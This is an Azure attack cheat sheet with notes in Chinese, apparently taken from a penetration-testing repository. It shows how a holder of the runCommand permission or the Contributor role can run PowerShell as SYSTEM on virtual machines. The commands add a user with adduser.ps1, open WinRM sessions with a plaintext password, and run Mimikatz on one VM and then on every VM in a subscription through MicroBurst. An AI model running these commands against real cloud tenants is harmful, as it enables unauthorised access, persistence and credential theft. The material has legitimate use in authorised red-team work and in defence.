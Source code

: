	要求：
	Microsoft.Compute/virtualMachines/runCommand/action
	Get Public IP of VM : 查询网络接口
	PS AzureAD> Get-AzVM -Name <RESOURCE> -ResourceGroupName <RG-NAME> | select -ExpandProperty NetworkProfile
	PS AzureAD> Get-AzNetworkInterface -Name <RESOURCE368>
	PS AzureAD> Get-AzPublicIpAddress -Name <RESOURCEIP>

	在虚拟机上执行 Powershell 脚本
	PS AzureAD> Invoke-AzVMRunCommand -VMName <RESOURCE> -ResourceGroupName <RG-NAME> -CommandId 'RunPowerShellScript' -ScriptPath 'C:\Tools\adduser.ps1' -Verbose

	通过 WinRM 连接
	PS C:\Tools> $password = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
	PS C:\Tools> $creds = New-Object System.Management.Automation.PSCredential('username', $Password)
	PS C:\Tools> $sess = New-PSSession -ComputerName <IP> -Credential $creds -SessionOption (New-PSSessionOption -ProxyAccessType NoProxyServer)
	PS C:\Tools> Enter-PSSession $sess
	允许任何具有“Contributor”权限的人在订阅中的任何 Azure VM 上以 NT Authority\System 的身份运行 PowerShell 脚本

	列出可用的虚拟机
	PS C:\> Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name
	ResourceGroupName    Name       
	-----------------    ----       
	TESTRESOURCES        Remote-Test

	在虚拟机上执行 Powershell 脚本
	PS C:\> Invoke-AzureRmVMRunCommand -ResourceGroupName TESTRESOURCES -VMName Remote-Test -CommandId RunPowerShellScript -ScriptPath Mimikatz.ps1
	使用 MicroBurst.ps1 针对整个订阅

	Import-module MicroBurst.psm1
	Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt